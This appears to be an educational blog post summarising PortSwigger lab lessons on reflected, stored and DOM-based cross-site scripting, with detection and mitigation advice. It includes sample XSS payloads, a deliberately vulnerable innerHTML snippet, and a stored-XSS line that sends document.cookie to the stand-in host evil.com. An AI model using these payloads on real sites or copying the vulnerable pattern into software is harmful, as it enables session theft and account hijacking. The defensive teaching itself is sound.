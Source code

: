 ```yaml
---
title: "Understanding Cross-Site Scripting (XSS) - OWASP Top 10 & PortSwigger Labs"
date: 2025-07-24
layout: post
tags: [owasp, xss, web-security, portswigger]
---
```


<div style="background-color: #f9f9f9; padding: 20px; border-left: 5px solid #f39c12; border-radius: 6px; margin-bottom: 20px;">

<strong>Table of Contents</strong>

<ul>
  <li><a href="#introduction">Introduction</a></li>
  <li><a href="#why-xss-matters">Why XSS Matters</a></li>
  <li><a href="#how-do-xss-attacks-work">How Do XSS Attacks Work?</a></li>
  <li><a href="#1-reflected-xss">1. Reflected XSS</a></li>
  <li><a href="#2-stored-xss">2. Stored XSS</a></li>
  <li><a href="#3-dom-based-xss">3. DOM-Based XSS</a></li>
  <li><a href="#summary">Summary</a></li>
  <li><a href="#conclusion">Conclusion</a></li>
  <li><a href="#references">References</a></li>
</ul>

</div>

## Introduction

Cross-Site Scripting (XSS) is a critical vulnerability that allows attackers to inject malicious scripts into trusted websites, which are then executed in the browser of unsuspecting users. This blog summarizes my learnings from **PortSwigger Web Security Academy**, covering the main types of XSS, how they work, real-world payloads, and best practices to prevent them.

## Why XSS Matters

XSS attacks are dangerous because they exploit the trust between a user and a web application. Malicious JavaScript injected into the page can steal cookies, session tokens, or other sensitive data, perform actions on behalf of the user, and even propagate worms.

Modern apps using JavaScript-heavy frameworks (React, Angular, etc.) are still vulnerable if not configured properly. Exploits can affect both users and administrators, leading to session hijacking, phishing, and malware delivery.

## How Do XSS Attacks Work?

XSS occurs when a web application includes user-supplied input in its output to the browser without proper validation or escaping. This lets an attacker craft a malicious payload like:

```html
<script>alert('XSS')</script>

If the app reflects this script back in an HTTP response, it will be executed by the victim’s browser, giving control to the attacker.

## 1. Reflected XSS
Definition:
Reflected XSS happens when the malicious script is reflected immediately from the server in an error message, search result, or any other response that includes input sent by the client.

How It Works:
An attacker crafts a URL with a malicious payload, like:

php-template
--
https://victim.com/search?query=<script>alert('XSS')</script>
--
When a victim clicks it, the payload gets reflected and executed in their browser.

Example Payloads:
--
<script>alert(1)</script>
"><script>alert(1)</script>
--

Detection:

Input appears unescaped in the HTML response

Burp Suite's XSS Auditor

Browser dev tools to inspect injection points

Mitigation:

Sanitize and encode all input

Use HTML escaping libraries (e.g., OWASP Java Encoder)

Set proper Content-Type and CSP headers

Avoid writing raw user input into the DOM

<div style="text-align: center;"> <img src="/top10-owasp-blog/assets/images/xss-reflected.png" alt="Reflected XSS" style="width: 40%; border: 1px solid #ccc; border-radius: 8px;"> <p><em>Figure: Reflected XSS flow</em></p> </div>

## 2. Stored XSS
Definition:
Stored XSS, also called persistent XSS, is when the malicious payload is stored on the server (e.g., in a comment, profile bio, post) and served to users later.

How It Works:
An attacker submits a malicious script via a form field like this:
--
<script>fetch('https://evil.com?cookie='+document.cookie)</script>
--
Anyone viewing that comment or post will have the script executed in their browser.

Impact:

Mass exploitation across users

Session theft

Admin account hijacking

Wormable attacks (self-propagating)

Detection:

Scan user-generated content for script tags

Monitor JavaScript events triggered by stored fields

Observe unexpected network calls in dev tools

Mitigation:

Escape all dynamic content before rendering

Use frameworks with auto-escaping (e.g., React)

Limit HTML input with allowlists

Sanitize inputs with libraries like DOMPurify

<div style="text-align: center;"> <img src="/top10-owasp-blog/assets/images/xss-stored.png" alt="Stored XSS" style="width: 40%; border: 1px solid #ccc; border-radius: 8px;"> <p><em>Figure: Stored XSS propagation</em></p> </div>

## 3. DOM-Based XSS
Definition:
DOM-based XSS occurs entirely on the client side when JavaScript in the page reads data from the DOM (e.g., location, document.referrer, innerHTML) and dynamically injects it into the page without validation.

How It Works:
Example vulnerable code:
--let q = location.hash.substring(1);
document.getElementById("result").innerHTML = q;
--
Payload:

php-template
--
https://example.com/#<img src=x onerror=alert(1)>
--
Detection:

Use DOM breakpoints in browser

Analyze dynamic DOM modifications

PortSwigger's DOM Invader (Burp Suite extension)

Mitigation:

Avoid writing raw HTML from untrusted sources

Use .textContent instead of .innerHTML

Sanitize DOM inputs

Avoid relying on location.href, document.referrer, etc.

<div style="text-align: center;"> <img src="/top10-owasp-blog/assets/images/xss-dom.png" alt="DOM XSS" style="width: 40%; border: 1px solid #ccc; border-radius: 8px;"> <p><em>Figure: DOM-based XSS logic</em></p> </div>

### Conclusion
Understanding XSS via PortSwigger's interactive labs gave me a deeper insight into how script injection works across different attack surfaces. From URL-based injections to complex DOM-based flaws, each lab demonstrated the risks of unvalidated input and unsafe DOM manipulations. Developers must prioritize secure input/output handling and enforce CSP and encoding mechanisms to reduce exposure.

### References
PortSwigger XSS Labs

OWASP XSS Prevention Cheat Sheet

MDN Web Docs on XSS


